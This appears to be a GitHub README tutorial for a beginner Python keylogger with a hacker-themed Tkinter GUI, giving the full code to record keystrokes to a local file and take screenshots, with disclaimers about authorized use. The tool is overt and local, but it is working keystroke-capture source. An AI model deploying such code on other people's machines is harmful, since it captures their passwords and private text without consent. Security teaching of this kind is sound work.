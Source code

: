 ### 💀🕶️ Black Phantom Logger
⚠️ Disclaimer: This project is strictly for educational purposes and cybersecurity research only. 
It is intended to help beginners understand keylogging mechanisms and ethical hacking concepts in a controlled environment. 
The author holds no responsibility for any misuse of this code.

##🛠️ Tools Used
For writing and running the Python script, I used:

Thonny IDE – A beginner-friendly Python environment, great for easy script execution and debugging.

## 📦 Required Python Libraries
Before running the keylogger, install the necessary libraries:


pip install pynput tkinter opencv-python pyautogui pillow
Libraries Explained:
pynput – Captures keystrokes in the background.

tkinter – Creates the GUI for our Black Phantom Logger.

opencv-python – Helps handle images (optional for additional features).

pyautogui – Captures screenshots.

PIL (pillow) – Supports image manipulation inside the GUI.

## 🚀 Project Overview
This is a simple keylogger with a dark hacker-themed GUI named Black Phantom Logger. It records keystrokes and saves them to a file. It also includes:

A graphical user interface (GUI) using Tkinter.

A dark "hacker-style" theme with a black and green aesthetic.

A button for starting and stopping the keylogger.

A logo of a hacker to enhance the simulation experience.

A feature to capture the screen as an extra functionality.

📜 Code Walkthrough
Let's break down the script step by step!

# 1️⃣ Importing Required Modules

import tkinter as tk
from tkinter import messagebox
from pynput.keyboard import Listener
import os
import pyautogui
from PIL import Image, ImageTk
tkinter – Creates the graphical interface.

pynput.keyboard.Listener – Monitors and records keystrokes.

os – Handles file operations.

pyautogui – Captures screenshots.

PIL.Image, ImageTk – Displays images in the GUI.

# 2️⃣ Creating the GUI (Graphical User Interface)

root = tk.Tk()
root.title("Black Phantom Logger")
root.geometry("400x400")
root.configure(bg="black")
tk.Tk() – Initializes the main window.

title("Black Phantom Logger") – Sets the program title.

geometry("400x400") – Defines the window size.

configure(bg="black") – Applies the dark hacker-style theme.

3️⃣ Adding a Hacker-Style Logo

logo = Image.open("hacker_logo.png")  # Make sure you have an image named hacker_logo.png
logo = logo.resize((100, 100))
logo = ImageTk.PhotoImage(logo)
logo_label = tk.Label(root, image=logo, bg="black")
logo_label.pack()
Loads a hacker-themed image to enhance the look.

Resizes the image and places it in the GUI.

4️⃣ Keystroke Logging Function

def log_keystrokes(key):
    key = str(key).replace("'", "")
    with open("keystrokes.txt", "a") as file:
        file.write(key + "\n")
Converts each pressed key into a string.

Saves the keystrokes into a text file (keystrokes.txt).

5️⃣ Screenshot Capture Function

def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    messagebox.showinfo("Screenshot", "Screenshot saved as screenshot.png")
Uses pyautogui.screenshot() to take a snapshot.

Saves the image as "screenshot.png".

Displays a confirmation message.

6️⃣ Start & Stop Buttons

def start_logger():
    global listener
    listener = Listener(on_press=log_keystrokes)
    listener.start()
    messagebox.showinfo("Logger", "Keylogger Started!")

def stop_logger():
    if listener:
        listener.stop()
        messagebox.showinfo("Logger", "Keylogger Stopped!")
start_logger() – Begins keylogging in the background.

stop_logger() – Stops the keylogger when needed.

7️⃣ Adding Buttons to GUI

start_button = tk.Button(root, text="Start Logging", command=start_logger, bg="green", fg="white")
stop_button = tk.Button(root, text="Stop Logging", command=stop_logger, bg="red", fg="white")
screenshot_button = tk.Button(root, text="Capture Screen", command=capture_screen, bg="blue", fg="white")

start_button.pack(pady=10)
stop_button.pack(pady=10)
screenshot_button.pack(pady=10)
Buttons added:

Start Logging (Green Button)

Stop Logging (Red Button)

Capture Screen (Blue Button)

8️⃣ Running the GUI

root.mainloop()
root.mainloop() keeps the window running.

### 🎭 Features & Hacker Simulation Experience
Dark Theme: A black & green color scheme for a hacker-like feel.

Hacker Logo: Enhances the interface's aesthetics.

Keylogging: Logs all keystrokes into a file.

Screen Capture: Takes a screenshot for additional monitoring.

### ⚠️ Warning & Ethical Considerations

🚨 This tool is meant for learning cybersecurity only!

Do not use this tool without proper authorization.

Unauthorized use of keyloggers is illegal and punishable by law.

The author takes no responsibility for any unethical use.

🔴 Use responsibly and ethically.

### 👨‍💻 How to Run the Keylogger
Install Thonny IDE (if not installed).

Download or clone this repository:

git clone (https://github.com/AhmedSalahHassanQatar/PRODIGY_CS_04)
cd black-phantom-logger

Install dependencies:
pip install pynput tkinter opencv-python pyautogui pillow
Run the script in Thonny or terminal:
python keylogger.py

📜 Final Words
This project is a basic yet powerful way to understand how keyloggers work in a cybersecurity research context. If you're a beginner, this is a great starting point for learning about ethical hacking, Python scripting, and GUI development.

🚀 Happy Learning, and Stay Ethical!
